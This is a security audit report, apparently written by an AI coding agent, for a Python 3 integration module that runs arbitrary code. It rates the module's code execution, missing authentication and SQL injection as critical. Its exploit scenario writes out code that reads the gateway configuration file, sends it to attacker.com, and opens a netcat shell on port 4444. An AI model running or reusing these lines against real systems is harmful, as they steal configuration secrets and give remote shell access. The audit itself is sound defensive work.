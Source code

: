 # Python 3 Integration Module - Security Audit Report

**Audit Date:** 2025-10-17
**Module Version:** v1.13.0
**Auditor:** Claude Code
**Severity Classification:** OWASP Risk Rating

---

## Executive Summary

This security audit reveals **3 critical vulnerabilities** that must be addressed before production deployment. The module provides powerful Python code execution capabilities, which inherently carries significant security risks. While basic functionality works well, the current implementation is **suitable only for trusted development environments**.

**Security Posture:** ⚠️ **NOT PRODUCTION-READY** without immediate fixes

**Risk Level by Category:**
- **Code Injection:** 🔴 CRITICAL - Arbitrary code execution
- **Authentication:** 🔴 CRITICAL - No endpoint authentication
- **SQL Injection:** 🔴 CRITICAL - Database compromise
- **Input Validation:** 🟡 HIGH - DoS vectors
- **Information Disclosure:** 🟡 MEDIUM - Excessive error details
- **Network Security:** 🟢 LOW - HTTPS recommended but not critical

---

## 🔴 Critical Vulnerabilities

### CVE-PYTHON3-001: Unrestricted Python Code Execution

**Severity:** CRITICAL (CVSS 9.8)
**Category:** Code Injection (CWE-94)
**Affected Files:**
- `python3-integration/gateway/src/main/java/com/inductiveautomation/ignition/examples/python3/gateway/Python3Executor.java`
- `python3-integration/gateway/src/main/resources/python_bridge.py`

**Vulnerability Description:**

The module executes arbitrary Python code in a subprocess without any sandboxing or restrictions. Users can import and use ANY Python module, including:
- `os` - Operating system access (file operations, process spawning)
- `subprocess` - Shell command execution
- `socket` - Network operations
- `sys` - Python interpreter manipulation
- `__import__` - Dynamic module imports

**Exploit Scenario:**

```python
# Attacker submits this code via REST API or Designer IDE:

# 1. Read sensitive files
import os
gateway_config = open('/opt/ignition/data/gateway.xml', 'r').read()

# 2. Exfiltrate data
import urllib.request
urllib.request.urlopen('http://attacker.com/steal?data=' + gateway_config)

# 3. Establish persistent backdoor
import subprocess
subprocess.Popen(['bash', '-c', 'nc -l 4444 -e /bin/sh &'])
```